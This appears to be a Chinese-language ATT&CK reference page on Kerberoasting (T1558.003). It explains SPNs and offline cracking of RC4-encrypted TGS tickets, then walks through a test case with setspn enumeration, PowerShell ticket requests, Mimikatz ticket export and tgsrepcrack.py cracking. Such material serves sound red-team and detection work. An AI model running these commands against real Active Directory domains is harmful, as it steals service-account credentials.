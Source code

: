 # T1558.003-基于SPN凭证获取

## 描述

攻击者可能利用有效的Kerberos票证授予票证（TGT）或嗅探网络流量，获取票证授予服务（TGS）票证，针对服务主体名称（SPN）关联的服务账户进行离线暴力破解，以窃取凭据。SPN用于唯一标识Windows服务的实例，需与至少一个服务账户关联以启用Kerberos身份验证。

攻击者通过SPN扫描发现域内服务，使用TGT向域控制器（DC）请求TGS票证。TGS票证的部分数据以RC4算法加密（Kerberos5TGS-REP etype 23），使用服务账户的NTLM哈希作为密钥，易受离线破解攻击，可能暴露明文密码。破解的凭据可用于持久化、特权提升或横向移动。

**SPN与UPN**：
- **SPN（服务主体名称）**：标识运行在机器账户或系统账户（如LocalSystem）下的服务，格式如`MSSQLSvc/DC1.test.com`。
- **UPN（用户主体名称）**：标识运行在域用户账户下的服务，格式如`user@domain.com`。

攻击无需向目标服务发送流量，仅需与DC交互，难以通过传统网络监控检测。

## 测试案例

### 测试案例1：SPN扫描与Kerberoasting攻击
通过PowerShell扫描域内SPN，请求TGS票证并导出，使用Kerberoast工具破解服务账户密码。

**步骤**：
1. **扫描SPN**：
   ```powershell
   setspn -T domain.com -Q */*
   ```
   - 查询域内所有SPN，输出如`MSSQLSvc/DC1.test.com`。

2. **请求TGS票证**：
   ```powershell
   $SPNName = 'MSSQLSvc/DC1.test.com'
   Add-Type -AssemblyName System.IdentityModel
   New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
   ```

3. **查看票证**：
   ```powershell
   klist
   ```
   - 确认内存中包含目标SPN的TGS票证。

4. **导出票证**：
   使用Mimikatz：
   ```cmd
   mimikatz.exe "kerberos::list /export" exit
   ```
   - 导出票证为`.kirbi`文件。

5. **破解哈希**：
   使用Kerberoast：
   ```bash
   python3 tgsrepcrack.py wordlist.txt ticket.kirbi
   ```
